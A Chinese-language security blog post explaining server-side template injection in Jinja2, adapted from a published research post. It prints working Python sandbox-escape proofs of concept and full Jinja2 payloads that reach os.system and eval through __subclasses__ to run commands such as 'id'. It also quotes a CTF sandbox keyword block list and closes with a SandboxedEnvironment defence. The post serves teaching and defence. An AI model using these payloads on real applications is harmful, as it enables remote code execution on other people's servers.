 ```yaml
---
layout: post
title: 利用 Python 特性在 Jinja2 模板中执行任意代码
tags: [web, security, ssti]
---
```


本文源于老外 [@nvisium](https://twitter.com/nvisium) 在其博客发表的博文 [《Injecting Flask》](https://nvisium.com/blog/2015/12/07/injecting-flask/)，在原文中作者讲解了 Python 模板引擎 [Jinja2](http://jinja.pocoo.org/) 在服务端模板注入 (SSTI) 中的具体利用方法，在能够控制模板内容时利用环境变量中已注册的用户自定义函数进行恶意调用或利用渲染进行 XSS 等。

对于 Jinja2 模板引擎是否能够在 SSTI 的情况下直接执行命令原文并没有做出说明，并且在 Jinja2 官方文档中也有说明，模板中并不能够直接执行任意 Python 代码，这样看来在 Jinja2 中直接控制模板内容来执行 Python 代码或者命令似乎不太可能。

### 一、模板中复杂的代码执行方式

最近在进行项目开发时无意中注意到 Jinja2 模板中可以访问一些 Python 内置变量，如 `[]` `{}` 等，并且能够使用 Python 变量类型中的一些函数，示例代码一如下：

```python
# coding: utf-8
import sys
from jinja2 import Template

template = Template("Your input: {}".format(sys.argv[1] if len(sys.argv) > 1 else '<empty>'))
print template.render()
```

为了方便演示，这里直接将命令参数输入拼接为模板内容的一部分并进行渲染输出，这里我们直接输入 `{{ 'abcd' }}` 使模板直接渲染字符串变量：

![](/images/articles/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/1.png)

当然上面说了可以在模板中直接调用变量实例的函数，如字符串变量中的 `upper()` 函数将其字符串转换为全大写形式：

![](/images/articles/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/2.png)

那么如何在 Jinja2 的模板中执行 Python 代码呢？如官方的说法是需要在模板环境中注册函数才能在模板中进行调用，例如想要在模板中直接调用内置模块 `os`，即需要在模板环境中对其注册，示例代码二如下：

```python
# coding: utf-8
import os
import sys
from jinja2 import Template

template = Template("Your input: {}".format(sys.argv[1] if len(sys.argv) > 1 else '<empty>'))
template.globals['os'] = os

print template.render()
```

执行代码，并传入参数 `{% raw %}{{ os.popen('echo Hello RCE').read() }}{% endraw %}`，因为在模板环境中已经注册了 `os` 变量为 Python `os` 模块，所以可以直接调用模块函数来执行系统命令，这里执行额系统命令为 `echo Hello Command Exection`：

![](/images/articles/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/3.png)

如果使用示例代码一来执行，会得到 `os` 未定义的异常错误：

![](/images/articles/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/4.png)

### 二、利用 Python 特性直接执行任意代码

那么，如何在未注册 `os` 模块的情况下在模板中调用 `popen()` 函数执行系统命令呢？前面已经说了，在 Jinja2 中模板能够访问 Python 中的内置变量并且可以调用对应变量类型下的方法，这一特点让我联想到了常见的 Python 沙盒环境逃逸方法，如 2014CSAW-CTF 中的一道 Python 沙盒绕过题目，环境代码如下：

```python
#!/usr/bin/env python 
from __future__ import print_function

print("Welcome to my Python sandbox! Enter commands below!")

banned = [  
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]

targets = __builtins__.__dict__.keys()  
targets.remove('raw_input')  
targets.remove('print')  
for x in targets:  
    del __builtins__.__dict__[x]

while 1:  
    print(">>>", end=' ')
    data = raw_input()

    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data
```

（利用 Python 特性绕过沙盒限制的详细讲解请参考 [Writeup](https://hexplo.it/escaping-the-csawctf-python-sandbox/)），这里给出笔者改进后的 PoC：

```python
[c for c in [].__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('echo Hello SandBox')
```

![](/images/articles/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/5.png)

当然通过这种方式不仅仅能够通过 `os` 模块来执行系统命令，还能进行文件读写等操作，具体的代码请自行构造。

回到如何在 Jinja2 模板中直接执行代码的问题上，因为模板中能够访问 Python 内置的变量和变量方法，并且还能通过 Jinja2 的模板语法去遍历变量，因此可以构造出如下模板 Payload 来达到和上面 PoC 一样的效果：

```
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{{ c.__init__.func_globals['linecache'].__dict__['os'].system('id') }}
{% endif %}
{% endfor %}
```
```

使用该 Payload 作为示例代码二的执行参数，最终会执行系统命令 `id`：

![](/images/articles/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/6.png)

当然除了遍历找到 `os` 模块外，还能直接找回 `eval` 函数并进行调用，这样就能够调用复杂的 Python 代码。

原始的 Python PoC 代码如下：

```python
[a for a in [b for b in [c for c in [].__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0].__init__.func_globals.values() if type(b) == dict] if 'eval' in a.keys()][0]['eval']('__import__("os").popen("whoami").read()')
```

在 Jinja2 中模板 Payload 如下：

```
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.func_globals.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
```

使用该 Payload 作为示例代码二的执行参数（注意引号转义），成功执行会使用 `eval()` 函数动态载入 `os` 模块并执行命令：

![](/images/articles/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/7.png)

### 三、利用途径和防御方法

SSTI（服务端模板注入）。通过 SSTI 控制 Web 应用渲染模板（基于 Jinja2）内容，可以轻易的进行远程代码（命令）执行。当然了，一切的前提都是模板内容可控，虽然这种场景并不常见，但难免会有程序员疏忽会有特殊的需求会让用户控制模板的一些内容。

在 Jinja2 模板中防止利用 Python 特性执行任意代码，可以使用 Jinja2 自带的沙盒环境 `jinja2.sandbox.SandboxedEnvironment`，Jinja2 默认沙盒环境在解析模板内容时会检查所操作的变量属性，对于未注册的变量属性访问都会抛出错误。

![](/images/articles/2016-02-24-use-python-features-to-execute-arbitrary-codes-in-jinja2-templates/8.png)

### 参考

* [https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
* [https://nvisium.com/blog/2015/12/07/injecting-flask/](https://nvisium.com/blog/2015/12/07/injecting-flask/)
* [https://hexplo.it/escaping-the-csawctf-python-sandbox/](https://hexplo.it/escaping-the-csawctf-python-sandbox/)
